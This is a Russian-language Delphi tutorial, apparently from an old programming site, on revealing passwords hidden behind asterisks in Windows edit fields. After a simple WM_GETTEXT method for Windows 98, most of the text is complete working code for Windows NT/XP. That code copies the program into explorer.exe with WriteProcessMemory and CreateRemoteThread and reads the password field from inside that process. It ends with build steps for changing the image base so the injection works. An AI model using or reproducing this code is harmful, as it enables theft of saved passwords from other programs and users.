

Все прекрасно видели пароли, которые отображаются в виде звезд, например, пароли для DialUp'a. Можно ли уведеть, что скрывается за этими звездами, а если можно, то КАК?! Мы рассмотрим ситуацию с Windows 98.
Создадим небольшое приложение на Delphi. На форму положим 2 Edit'a и 1 Button. Для первого Edit'a свойство PasswordChar, в IDE, установим в '*'. Т.е. теперь все что мы пишем в данном Edit'e будет отображаться звездочками. По нажатию кнопки во второй Edit постараемся вывести, то что написано в первом, но в более читабельном виде.

Приступим...
С помощью EM_GETPASSWORDCHAR мы проверим, действительноли тутто, что нам надо. Ну а далее дело техники - обыкновенный WM_GETTEXT для получения текста.
procedure TForm1.Button1Click(Sender: TObject);
Var
SecretText: PChar;
Len: Integer;
begin
If SendMessage(Edit1.Handle, EM_GETPASSWORDCHAR, 0, 0) <> 0 Then
Begin
Len := Length(Edit1.Text) + 1;
GetMem(SecretText, Len);
try
SendMessage(Edit1.Handle, WM_GETTEXT, Len, Integer(SecretText));
Edit2.Text := String(SecretText);
finally
FreeMem(SecretText);
end;
End;
end;
Вот и все секреты....
Этот способ, в Win98, прокатывал со всеми звездами, но в линейке NT он не работает...
Давайте посмотрим как можно подсмотреть что же скрывается за звездочками в более старших версииях ОС, например, Windows XP. Метод описанный для Win98 в данном случае не прокатывает, по-этому будем пробовать что-то другое... Т.к. сама ОС без проблем может взять этот пароль, то нам надо как-то представиться этой самой ОС. Мы попробуем представиться эксплорером и от его имени попросим, с помощью все того же WM_GETTEXT, показать нам наши звездочки. Что бы нам стать частью эксплорера нам необходимо попасть в его АП (адресное пространство). Это можно делать несолькими способами, мы попробуем через WriteProcessMemory() и CreateRemoteThread().
зы: в данном примере Handle окна с паролем я нахжу не программно, а с помощью утилитки WinSpy, т.к. для примера нам этого хватит!
Вот код:
unit Unit1;
interface
uses
Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
Dialogs, StdCtrls;
type
TForm1 = class(TForm)
Button1: TButton;
Edit1: TEdit;
procedure Button1Click(Sender: TObject);
private
function IsNt: boolean;
function OptHdrOffSet(ptr: LongInt): DWORD;
function SpawnThreadNT(pszProcess: PChar; g_hModule: HMODULE; EntryPoint: pointer): boolean;
public
end;
var
Form1: TForm1;
implementation
Uses tlhelp32;
{$R *.dfm}
function TForm1.IsNt: boolean;
var
osvi: OSVERSIONINFO;
begin
osvi.dwOSVersionInfoSize := sizeof(OSVERSIONINFO);
If (not GetVersionEx(osvi)) Then
Begin
Result := FALSE;
Exit;
End;
If(osvi.dwPlatformId <> VER_PLATFORM_WIN32_NT) Then
result := FALSE
Else
result := TRUE;
end;
function TForm1.OptHdrOffSet(ptr: Integer): DWORD;
begin
Result := PImageOptionalHeader(
int64(ptr) +
PImageDosHeader(ptr)._lfanew +
sizeof(DWORD) +
sizeof(IMAGE_FILE_HEADER)).SizeOfImage;
end;
function TForm1.SpawnThreadNT(pszProcess: PChar;
g_hModule: HMODULE; EntryPoint: pointer): boolean;
var
dwProcID: DWORD;
hToolHelp: THandle;
pe: PROCESSENTRY32;
hProc: THandle;
dwSize: DWORD;
pMem: Pointer;
dwOldProt, dwNumBytes, i: DWORD;
mbi: TMemoryBasicInformation;
dwRmtThdID: DWORD;
hRmtThd: THandle;
begin
hToolHelp := CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
pe.dwSize := sizeof(pe);
Result := false;
If (not Process32First(hToolHelp, pe)) Then exit;
dwProcID := 0;
while (Process32Next(hToolHelp, pe)) do
begin
If (lstrcmpi(pe.szExeFile, pszProcess) = 0) Then
begin
dwProcID := pe.th32ProcessID;
break;
end;
end;
If (dwProcID = 0) Then exit;
If (GetCurrentProcessId() = dwProcID) Then exit;
hProc := OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcID);
If (hProc = 0) Then exit;
VirtualFreeEx(hProc, ptr(g_hModule), 0, MEM_RELEASE);
dwSize := OptHdrOffSet(g_hModule);
pMem := VirtualAllocEx(hProc, ptr(g_hModule), dwSize, MEM_COMMIT or MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (pMem = nil) Then exit;
VirtualQueryEx(hProc, pMem, mbi, sizeof(MEMORY_BASIC_INFORMATION));
while ((mbi.Protect <> PAGE_NOACCESS) and (mbi.RegionSize <> 0)) do
begin
If ((mbi.Protect and PAGE_GUARD) = 0) then
begin
i := 0;
while(i < mbi.RegionSize) do
begin
If (not VirtualProtectEx(hProc, ptr(DWORD(pMem) + i), $1000, PAGE_EXECUTE_READWRITE, dwOldProt))then
exit;
If (not WriteProcessMemory(hProc, ptr(DWORD(pMem) + i), Pointer(DWORD(g_hModule) + i), $1000, dwNumBytes)) Then
exit;
i := i + $1000;
end;
pMem := Pointer(DWORD(pMem) + mbi.RegionSize);
VirtualQueryEx(hProc, pMem, mbi, sizeof(MEMORY_BASIC_INFORMATION));
end;
end;
hRmtThd := CreateRemoteThread(hProc, nil, 0, EntryPoint, ptr(g_hModule), 0, dwRmtThdID);
If (hRmtThd = 0) Then exit;
CloseHandle(hProc);
Result := TRUE;
end;
procedure TForm1.Button1Click(Sender: TObject);
Function GetHw: THandle;
Begin
Result := $002901C4;
End;
Function Entry: Boolean;
Var
Len: Integer;
hw: THandle;
hText: array[0..20] of char;
Begin
hw := GetHw();
Len := SendMessage(hw, WM_GETTEXTLENGTH, 0, 0) + 1;
If (Len > 1) Then
Begin
SendMessage(hw, WM_GETTEXT, 19, Integer(PChar(@hText)));
messagebox(0, pchar(@htext), 'Passwd', 0);
End;
Result := True;
End;
begin
If IsNt() Then
Begin
SpawnThreadNT('EXPLORER.EXE', GetModuleHandle(nil), @Entry);
End;
end;
end.
И самое главное, что бы этот проект РАБОТАЛ необходимо собрать его с ImageBase отличным от 400000. Я сделал $03140000.
Для того что бы его сменить делаем следущее: Shift+Ctrl+F11, закладка Linker, поле ImageBass, либо Ctrl+O+O и меняйте параметр директивы $IMAGEBASE на нужный!
Удачи!